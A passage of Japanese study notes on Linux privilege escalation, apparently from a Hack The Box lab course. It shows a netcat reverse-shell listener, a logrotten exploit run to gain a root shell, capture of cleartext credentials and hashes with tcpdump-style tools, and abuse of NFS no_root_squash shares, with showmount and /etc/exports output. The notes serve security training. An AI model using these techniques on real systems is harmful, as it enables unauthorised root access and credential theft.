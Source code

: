 
リバースシェルを受け取るためのリスナーを起動する
```shell-session
nc -nlvp 9001
```

準備したペイロードでエクスプロイトを実行し、特権ユーザーまたはrootとしてリバースシェルを待つ
```shell-session
./logrotten -p ./payload /tmp/tmp.log
```


## パッシブなトラフィックキャプチャ
- tcpdumpがインストールされている場合、権限のないユーザーでもネットワークトラフィックをキャプチャできる可能性がある
- キャプチャされる可能性のある情報
	- クリアテキストで送信される認証情報
	- クレジットカード番号やSNMPコミュニティストリングなどの機密情報
	- Net-NTLMv2、SMBv2、またはKerberosハッシュ
		- ブルートフォース可能
クリアテキストプロトコル
- HTTP、FTP、POP、IMAP、telnet、SMTPなどは、ホスト上で権限を昇格するために再利用できる認証情報が含まれている可能性がある
使えるツール
- net-creds
- Credz

脆弱なNFS権限
- Network File System (NFS)を使用すると、ユーザーはUnix/Linuxシステムでホストされているネットワーク上の共有ファイルまたはディレクトリにアクセスできる
- NFSはTCP/UDPポート2049を使用する

アクセス可能なマウントの一覧表示
- NFSサーバーのエクスポートリスト（またはファイルシステムのアクセス制御リスト）がNFSクライアントにリスト表示される
NFS共有のエクスポートリストを表示する

```sh
showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

NFSボリュームが作成されるとき、さまざまなオプションを設定できる

|                |                                                                                                                                                          |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| オプション          | 説明                                                                                                                                                       |
| root_squash    | rootユーザーがNFS共有にアクセスするために使用される場合、権限のないアカウントであるnfsnobodyユーザーに変更される。rootユーザーによって作成およびアップロードされたファイルはnfsnobodyユーザーが所有するため、攻撃者がSUIDビットが設定されたバイナリをアップロードできなくなる。 |
| no_root_squash | ローカルのrootユーザーとして共有に接続するリモートユーザーは、NFSサーバー上でrootユーザーとしてファイルを作成できる。これにより、SUIDビットが設定された悪意のあるスクリプト/プログラムを作成できるようになる。                                          |

- /etc/exports ファイルの内容を表示する
```shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```
